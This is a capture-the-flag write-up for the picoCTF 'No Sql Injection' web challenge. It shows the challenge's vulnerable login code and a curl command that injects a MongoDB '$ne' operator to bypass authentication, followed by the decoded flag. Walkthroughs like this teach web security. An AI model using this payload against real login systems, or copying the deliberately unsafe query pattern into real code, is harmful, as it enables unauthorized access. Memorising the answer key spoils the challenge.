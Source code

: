 # No Sql Injection:Web Exploitation:200pts
Can you try to get access to this website to get the flag?  
You can download the source [here](app.tar.gz).  
The website is running [here](http://atlas.picoctf.net:61553/). Can you log in?  

Hints  
1  
Not only SQL injection exist but also NoSQL injection exists.  
2  
Make sure you look at everything the server is sending back  

# Solution
The URL and source are passed.  
When you access it, it seems to be just a login form.  
![site.png](site/site.png)  
From the name of the problem, it seems that NoSQLi should be executed.  
Looking at the source, the main parts of the front desk were as follows.
```ts
~~~
export default function Home() {
  const router = useRouter();
  const [email, setEmail] = useState("");
  const [password, setPassword] = useState("");
  const [submitting, setSubmitting] = useState(false);
  const [visible, setVisible] = useState(true);
  const [message, setMessage] = useState("");

  const handleSubmit = async (e: React.FormEvent) => {
    e.preventDefault();
    if (email !== "" || password !== "") {
      setSubmitting(true);
      try {
        const response = await fetch("/api/login/", {
          method: "POST",
          body: JSON.stringify({
            email: email,
            password: password,
          }),
        });

        if (response.status === 200) {
          router.push("/admin");
        } else if (response.status === 401) {
          setMessage("Invalid email or password");
        }
      } catch (error) {
        setMessage("Invalid email or password");
      } finally {
        setSubmitting(false);
      }
    } else {
      setMessage("Email or password cannot be empty");
    }
  };
~~~
```
`/api/login/` If it is 200, it seems that the login will be successful. 
`/api/login/`The source was as follows.  
```ts
import User from "@/models/user";
import { connectToDB } from "@/utils/database";
import { seedUsers } from "@/utils/seed";

export const POST = async (req: any) => {
  const { email, password } = await req.json();
  try {
    await connectToDB();
    await seedUsers();
    const users = await User.find({
      email: email.startsWith("{") && email.endsWith("}") ? JSON.parse(email) : email,
      password: password.startsWith("{") && password.endsWith("}") ? JSON.parse(password) : password
    });

    if (users.length < 1)
      return new Response("Invalid email or password", { status: 401 });
    else {
      return new Response(JSON.stringify(users), { status: 200 });
    }
  } catch (error) {
    return new Response("Internal Server Error", { status: 500 });
  }
};
```
Determine if it is JSON or not,`User.find`It has been done.  
Looking at the seed.ts, the initial user is defined as follows, so log in with this It seems to be fine, but I don't know the password.  
```ts
import User from "../models/user";


export const seedUsers = async (): Promise<void> => {
  
  try {

     const users = await User.find({email: "joshiriya355@mumbama.com"});
      if (users.length > 0) {
        return;
      }
    const newUser = new User({
      firstName: "Josh",
      lastName: "Iriya",
      email: "joshiriya355@mumbama.com",
      password: process.env.NEXT_PUBLIC_PASSWORD as string
    });
    await newUser.save();
  } catch (error) {
    throw new Error("Some thing went wrong")
  }
};
```
Familiarity with MongoDB, including negation in query statements`"$ne"` You can use techniques. 
```bash
$ curl -X POST 'http://atlas.picoctf.net:61553/api/login/' -d '{"email":"joshiriya355@mumbama.com","password":"{\"$ne\": \"satoki\"}"}' -L
[{"_id":"65f08d5715535af6a1394524","email":"joshiriya355@mumbama.com","firstName":"Josh","lastName":"Iriya","password":"Je80T8M7sUA","token":"cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uX2UzMWVmMzI0fQ==","__v":0}]
$ echo -n 'cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uX2UzMWVmMzI0fQ==' | base64 -d
picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_e31ef324}
```
The 'token' in the response contained a base64 flag.
## picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_e31ef324}